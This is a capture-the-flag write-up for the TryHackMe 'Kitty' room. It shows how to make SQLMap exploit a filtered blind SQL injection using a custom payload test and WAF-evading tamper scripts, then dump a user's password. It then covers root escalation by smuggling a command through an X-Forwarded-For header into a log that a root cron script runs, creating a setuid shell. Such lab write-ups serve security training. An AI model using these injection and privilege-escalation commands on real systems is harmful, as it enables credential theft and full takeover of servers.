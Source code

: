 # Kitty - solving with SQLMap

https://tryhackme.com/room/kitty, rated Medium

I didn't get this the first time it was up, making some bad assumptions, but eventually when I had a go and discovered it was complex SQL injection, designed so that [SQLMap](https://github.com/sqlmapproject/sqlmap) would not be usable, I RESOLVED to figure out how to use SQLMap instead of custom scripting - this was not because custom scripting would be difficult, or not fun, but because finding edge cases where SQLMap won't work and then figuring out how to MAKE it work is a challenge on its own, and helps you learn the inner complexities of this complex and very useful tool.

## Initial Enumeration

An initial scan reveals 22 and 80. On the website, there is a login page at index.php, a register.php page, and once you login an information-less welcome.php and a link to logout.php. Two features become apparent with additional testing:

  - the login form will report 'SQL Injection detected. This incident will be logged!' if you use ` or ` in one of the form fields.
  - the register form will report if a username has already been used. By leveraging this with a brute forcing tool like ffuf you can discover that the username 'kitty' already exists

Despite the login forms filter (or perhaps *because* of it) trying different SQL injection payloads will eventually reveal you can bypass the login with a username like `' union select 1,2,3,4 -- `. However, welcome.php continued to have nothing useful. Knowing that there is a user named `kitty`, and SSH is open, a (correct) guess at the path forward is that getting the user kitty's site password might allow access over SSH.

## Getting SQL Map to work

0. In order to solve this we will need some tamper scripts only available with the latest versions of SQLMap (not the default on the attackbox). So best to grab the latest and use `python3 sqlmap.py` rather than the built in `sqlmap`: `git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`. The version I used was `1.8.2#stable`.

> Additionally, I created a user **test** and **test11**, to use as a valid positive (this works with the inference that sql map users, which will be something like 'select password where username = test and inference'.

1. To start, with SQLMap we can use an existing request or a URL with some flags. This is basically preference, but for clarity I will use the latter option:

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms`

2. Further experimentation will reveal the database as MySQL (determined by some query options not being evaluated etc) so to simplify things you can append `--dbms=mysql -p username` to both restrict to MySQL and just focus on the username field. Additionally `--skip-heuristic` will cut back noise, as we already know this field is vulnerable (and SQLMap will think it isn't). Finally, because there is a session cookie that won't change when a successful bypass executes, and which sql map by default adopts, we need to ignore the set-cookie flag: `--drop-set-cookie`:

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --skip-heuristic --drop-set-cookie`

3. Next step is identifying the type of injection this is. As there is no feedback to the user in terms of returned content, its a 'blind injection' (`--technique=B`), as long as we can get some sort of true or false difference between responses. In this case, false returns a 200 code (invalid username or password) while true redirects with 302: `--code=302` will tell SQLMap to treat 302's as a success message.

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --skip-heuristic --drop-set-cookie --technique=B --code=302`

4. In a normal situation, most of the above (except `-u` and `--forms`) probably wouldn't be necessary, but we want to cut the noise down and get results quick because investigation of the SQL Injection filter is trial and error. To test specifically I created a custom test, and specified it using `--test-filter=kitty`: the following was added to `data/xml/payloads/boolean_blind.xml`:

   ```xml
   <test>
        <title>CUSTOM kitty blind</title>
        <stype>1</stype>        <!-- boolean-based -->
        <level>1</level>        <!-- run always -->
        <risk>1</risk>                  <!-- low risk -->
        <clause>0</clause>      <!-- no conditions -->
        <where>3</where>        <!-- replace original value -->
        <vector>test' AND [INFERENCE] -- </vector>   <!-- once detected, how to exploit -->
        <request>
            <payload>test' AND 1=1 -- </payload>       <!-- test to see if it worked -->
        </request>
        <response>
            <comparison>badtest</comparison>   <!-- compare to to see if it failed (nothing) -->
        </response>
        <details>
            <dbms>MySQL</dbms>  <!-- target database -->
        </details>
    </test>
   ```

   By using this test, we *know* it will be exploitable.

5. Finally, to debug what the waf filter is, we specify `-v 3` through to `-v 5` as needed: this will print out the post data used, and what is returned (when v=5). Final query for testing is something like:

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --skip-heuristic --drop-set-cookie --technique=B --code=302 --test-filter=kitty -v 5`

   Through the above we can see when calls return with `SQL Injection detected...`. Taking these queries, e.g. 

    `test' UNION SELECT 1,2,3,4 WHERE ORD(MID((IFNULL(CAST(DATABASE() AS NCHAR)),0x20,CAST(DATABASE() AS NCHAR)),1,1))>127 --`

   We can put this into burp suite or similar, and modify it until the error goes away. In the above, three things trigger the error: `ORD` as it contains OR presumably, `0x20` (or any other 0x character) and `IFNULL`.

6. So how to fix this? Fortunately, SQLMap has a thing called 'tamper scripts', which you can see here: https://github.com/sqlmapproject/sqlmap/tree/master/tamper. These can be specified by script name with `--tamper`. And fortunately there are three that solve the specific problems above:

    - `hex2char.py` replaces `0x20` with `Char(32)`
    - `ifnull2ifisnull.py` replaces `IFNULL()` with `IF(ISNULL(),)`
    - `ord2ascii.py` replaces `ORD` with `ASCII`

    With these three tamper scripts, specified `--tamper=ord2ascii,ifnull2ifisnull,hex2char` we can effectively avoid the WAF filter the site has.

Now all these pieces are in place, the injection is possible with SQLMap! In fact, the final query can be simplified and doesn't require the above custom test:

  `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --code=302 --dump --tamper=ord2ascii,ifnull2ifisnull,hex2char --skip-heuristic --drop-set-cookie --flush-session`

(Here `--flush-session` doesn't used any cached tests, and can be useful to ignore any remnants from experiments)

The above query will reveal the kitty user's password, which works over SSH :) 

> When it runs SQLMap will ask you a number of questions. Most of them will be fine with defaults, except you dont want to follow redirects and you need to edit the form field values to include the valid username and password created earlier. For reference, here are the questions and the answers:
> - do you want to test this form? Y
> - Edit POST data [default: username=&password=] (Warning: blank fields detected): username=test&password=test11
> - got a 302 redirect to 'http://10.10.229.44/welcome.php'. Do you want to follow? n
> - are you sure that you want to continue with further target testing? Y
> - do you want to (re)try to find proper UNION column types with fuzzy test? N
> - injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? Y
> - POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? N
> - do you want to exploit this SQL injection? Y

## Privesc to root

The focus of this writeup is getting SQLMap working, but I'll finish with the root privesc. The pieces required from local enumeration are as follows:

- there are two sites on the box, both under /var/www. They are identical, though one which is only accessible internally at localhost:8080 does the following when SQL Injection is detected:
    ```php
    if (preg_match( $evilword, $username )) {
        echo 'SQL Injection detected. This incident will be logged!';
        $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
        $ip .= "\n";
        file_put_contents("/var/www/development/logged", $ip);
        die();
    }
    ```
    notably, `/var/www/development/logged` is not writable by the kitty user, so going via the website's logging system is the only option.
- on the box you can also find `/opt/log_checker.sh`. The contents of this are:

    ```bash
    #!/bin/sh
    while read ip;
    do
      /usr/bin/sh -c "echo $ip >> /root/logged";
    done < /var/www/development/logged
    cat /dev/null > /var/www/development/logged
    ```
- finally, by bringing over [pspy64](https://github.com/DominicBreuker/pspy) or similar you can observe that root runs `/bin/sh -c /usr/bin/bash /opt/log_checker.sh`, presumably as part of a cronjob.

The solution is by putting some command injection into the log file, e.g. `; cp /bin/sh /tmp/sh && chmod u+s /tmp/sh;` which will create a suid `sh` copy. This can be done in the local kitty session witha  curl command like: `curl -X POST -H "X-Forwarded-For: ; cp /bin/sh /tmp/sh && chmod u+s /tmp/sh;" -d "username=+or+&password=test" localhost:8080` - this triggers the injection waf and puts the command in the log file, which then gets executed and creates a suid binary you can use to jump to root with `/tmp/sh -p` :)
